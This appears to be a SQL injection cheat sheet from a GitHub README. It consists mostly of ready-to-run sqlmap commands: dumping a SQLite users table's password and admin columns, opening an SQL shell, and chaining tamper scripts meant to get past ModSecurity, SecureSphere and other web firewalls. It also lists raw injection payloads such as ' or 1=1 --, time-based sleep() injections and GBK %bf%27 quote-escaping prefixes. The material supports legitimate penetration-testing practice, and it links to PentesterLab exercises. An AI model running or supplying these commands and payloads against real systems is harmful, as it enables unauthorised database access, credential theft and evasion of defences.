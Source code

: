 Use Prefix and Suffix for more challenging attacks
---------------------------------------------
```
# See example 9 https://pentesterlab.com/exercises/web_for_pentester_II/course
# Example Chinese char set https://www.fileformat.info/info/charset/GBK/list.htm
sqlmap -r ./sqlmap-03.txt --level=5 --risk=3 --batch --prefix=%bf%27 --dbms=mysql
```
Useful Switches
----------------
```
–-crawl=4 (depth of pages to crawl)
--proxy=http://127.0.0.1:8080
–identify-waf


SQLite sample 
-------------
```
# NOTE: Notice the -D parameter is "SQLite_masterdb", this appears to be the default database for SQLite. 
# Other possible -D parameter could be "main"
sqlmap -r ./sqlmap-01.txt --dbms=SQLite --batch --level=5 --risk=3 -D SQLite_masterdb -T users -C admin,password,username --dump

## Get --sql-shell
sqlmap -r ./sqlmap-01.txt --dbms=SQLite --batch --level=5 --risk=3 -D SQLite_masterdb -T users -C admin,password,username --dump --sql-shell

# List tables
SELECT name FROM sqlite_master WHERE type='table';
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

# Show tables and columns
SELECT sql FROM sqlite_master
```

SQLMap Tamper Data
-------------
```
sqlmap -u 'http://www.site.com:80/search.cmd?form_state=1’ --level=5 --risk=3 -p 'item1' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```
General Tamper Data
```
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```
MSSQL
```
tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,percentage,randomcase,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```
MYSQL
```
tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```
SQLInjection Basic Stuff
-------------
```
' or 1=1 --
' or 1=1 or '1'='1
# If single quotes are blocked try delimiting them
/' or 1=1 or '1'='1
/' or 1=1 --
'"
105 OR 1=1
" or ""="
'%2b(select*from(select(sleep(20)))a)%2b'%bf%27
'+(select*from(select(sleep(5)))a)+'
```
Interesting items that can be used to prefix and suffix attacks
---------------------
```
prefix='('
prefix='\xBF'''
prefix='%bf%27'
prefix=''''
--Attack using the middle of the url
sqlmap.py -p host -u "example.com?host=" --prefix "http://anotherexample.com?bar=1" --suffix "&restoftheurl=whatever"
```
Sqlmap quick cheat sheet
-------------
```
sqlmap -u ${url}
sqlmap -u ${url} --dbs
sqlmap -u ${url} -D ${database} --tables
sqlmap -u ${url} -D ${database} -T ${table} --columns
sqlmap -u ${url} -D ${database} -T ${table} -C ${col1},${col2} --dump
```

